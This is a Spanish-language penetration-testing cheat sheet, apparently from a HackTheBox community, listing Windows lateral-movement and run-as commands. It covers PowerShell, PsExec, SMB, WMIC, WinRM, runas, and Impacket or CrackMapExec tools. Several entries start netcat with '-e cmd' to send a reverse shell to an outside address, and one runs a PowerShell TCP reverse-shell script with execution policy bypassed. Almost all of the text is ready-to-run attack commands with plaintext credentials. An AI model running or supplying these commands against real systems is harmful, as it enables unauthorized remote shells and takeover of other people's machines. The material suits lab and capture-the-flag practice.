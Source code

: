 POWERSHELL
-------------------------------------
```
$pass = ConvertTo-SecureString "pass" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("username", $pass)
$computer = "hostname"
[System.Diagnostics.Process]::Start("c:\nc64.exe","10.10.10.10 4567 -e cmd",$mycreds.Username, $mycreds.Password, $computer)
```

```
$pass = ConvertTo-SecureString "pass" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("username", $pass)
start-process -Credential $mycreds c:\users\"daniel lopez"\desktop\nc64.exe -argumentlist "10.10.10.10 4567 -e cmd"
```

```
$pass = ConvertTo-SecureString "pass" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("username", $pass)
invoke-wmimethod win32_process -name create -Credential $mycreds -argumentlist 'nc64.exe 10.10.13.6 9090 -e cmd'
```

EMPIRE --> spawnas


PsExec (PStools microsoft)
-----------------------------------
```
./PsExec64.exe -accepteula -u user -p pass cmd /c C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec bypass -File "C:\Tools\Invoke-PowerShellTcp.ps1"
```

```
PsExec64.exe -accepteula -u attl4s -p pass cmd /k C:\users\attl4s\desktop\nc64.exe 192.168.1.50 4567´´´´
```
SMB
------------------------------------
```
net use \\127.0.0.1 /user:domain\user pass
    net use    
    dir \\127.0.0.1\c$
    dir \\127.0.0.1\ADMIN$
```
    
WMIC (No se pueden usar las credenciales de usuario para conexiones locales) (Interactive)
----------------------------------
```
wmic /node:hostname /user:domain\user path win32_process call create calc.exe
```

WINRM
---------------------------
```
$pass = ConvertTo-SecureString "Zx^#QZX+T!123" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("username", $pass)
$computer = "machine"
Invoke-Command -Computer $computer -ScriptBlock {whoami} -credential $mycreds
```

```
$pass= ConvertTo-SecureString "pass" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("user", $pass)
$computer="hostname"
Enter-PSSession -ComputerName $computer -Credential $mycreds
```
    
RUNAS (Interactive)
-----------------------------------
```
runas /netonly /user:domain\user "cmd.exe"
    pass
```

REMOTO DESDE KALI
-------------------------
```
psexec.py user:pass@10.10.10.10
smbexec.py user:pass@10.10.10.10
wmiexec.py user:pass@10.10.10.10
CrackMapExec.py 10.10.10.10 -d domain -u user -p pass -x cmd

smbclient -U "Administrator" \\\\10.10.10.10\\C$
smbclient \\\\10.10.10.10\\Users -U user pass

rdp_check.py domain\user:pass@10.10.10.10
rdesktop -d domain -u user -p pass 10.10.10.10
```

Fuente
---
HackTheBox Hispano (Telegram)
